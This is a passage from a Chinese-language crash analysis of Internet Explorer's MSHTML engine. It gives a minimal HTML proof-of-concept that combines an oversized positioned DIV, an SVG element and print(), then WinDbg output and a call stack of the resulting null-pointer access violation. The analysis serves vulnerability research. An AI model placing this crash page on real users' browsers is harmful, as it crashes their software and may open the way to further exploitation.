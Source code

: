 ```
<!DOCTYPE HTML>
<HTML><HEAD>
</HEAD> 
<BODY>
<DIV style="left: -5000px; top: -5000px; width: 10000px; height: 10000px; text-align: justify; position: absolute; z-index: 0;"><svg 
xmlns="http://www.w3.org/2000/svg" style="position: relative;" viewBox="0 0 10000 10000" 
width="10000" height="10000" />
</DIV>
<script>print();</script>
</BODY></HTML>

```

跟随调试可以发现，崩溃位置维持不变：

```
0:040> g
(24c8.2960): Access violation - code c0000005 (!!! second chance !!!)
eax=00000000 ebx=00000000 ecx=00000000 edx=00000000 esi=045c9220 edi=0a68eeac
eip=6537b102 esp=0a68eea4 ebp=0a68eeb8 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
MSHTML!CDispParentNode::ComputeVisibleBoundsOnDirtySVGSubtree+0x16:
6537b102 8b33            mov     esi,dword ptr [ebx]  ds:002b:00000000=????????

```

接下来让我们看看打印预览窗口的DOM结构。因为DIV的STYLE属性是触发崩溃的关键条件之一，但是我们又想拿到预览窗口的DOM，所以我们得做一些改动，先手动删除部分STYLE，然后预览，这时，便可使用我们之前的程序抓出DOM。

篇幅考虑我就不扯淡再去看这个DOM了，直接以上述精简后的代码开始分析工作。

0x06 崩溃分析
=========

* * *

在崩溃后查看崩溃栈如下：

```
0:033> kvn
 # ChildEBP RetAddr  Args to Child              
00 0b2df530 64c7b6b7 0b2df75c 0b2df75c 64c7b63a MSHTML!CDispParentNode::ComputeVisibleBoundsOnDirtySVGSubtree+0x16 (FPO: [Non-Fpo])
01 0b2df774 645de05b 0b2df7bc 0b2df79a 0b2dfb3c MSHTML!`CBackgroundInfo::Property<CBackgroundImage>'::`7'::`dynamic atexit destructor for 'fieldDefaultValue''+0x2b2eb
02 0b2df860 64b4110c 0b2dfb3c 0b2dfb3c 0b2dfb3c MSHTML!Layout::FlowBoxBuilder::BuildBoxItem+0x89 (FPO: [1,51,4])
03 0b2df87c 64b410d7 0b2dfb3c 0d82d0e0 0b2df8e4 MSHTML!Layout::LayoutBuilder::BuildBoxItem+0x2e (FPO: [Non-Fpo])
04 0b2df88c 64b40193 0b2dfb3c 0b2df908 64e657d0 MSHTML!Layout::LayoutBuilder::Move+0x57 (FPO: [Non-Fpo])
05 0b2df8e4 65358d8d 0d83264c 00000000 0d83264c MSHTML!Layout::LayoutBuilderDriver::BuildElementLayout+0xce (FPO: [Non-Fpo])
06 0b2df974 65359137 ffffffff 00000001 04c29ab4 MSHTML!Layout::MultiFragmentBoxBuilder::BuildCrossFragmentPositionedElement+0x1c3 (FPO: [Non-Fpo])
07 0b2df9d4 64ec4753 0b2dfa24 0d82d020 0d82cff0 MSHTML!Layout::MultiFragmentBoxBuilder::PositionAndArrangeCrossFragmentAbsolutePositionedElement+0x17e (FPO: [Non-Fpo])
08 0b2dfa2c 645d06b0 0d7e8ba0 04c29ab4 0b2dfb3c MSHTML!`CBackgroundInfo::Property<CBackgroundImage>'::`7'::`dynamic atexit destructor for 'fieldDefaultValue''+0xce2e3
09 0b2dfb14 645d72b9 0b2dfb3c 0b2dfb48 645d6ae0 MSHTML!Layout::PageCollection::LayoutPagesCore+0x37e (FPO: [Non-Fpo])
0a 0b2dfb40 65340900 65340760 0b2dfb88 0d832648 MSHTML!Layout::PageCollection::LayoutPages+0xca (FPO: [Non-Fpo])
0b 0b2dfb7c 64a9ec7e 00100000 04c29500 00000000 MSHTML!Layout::PageCollection::DoLayout+0x1a0 (FPO: [1,9,4])
```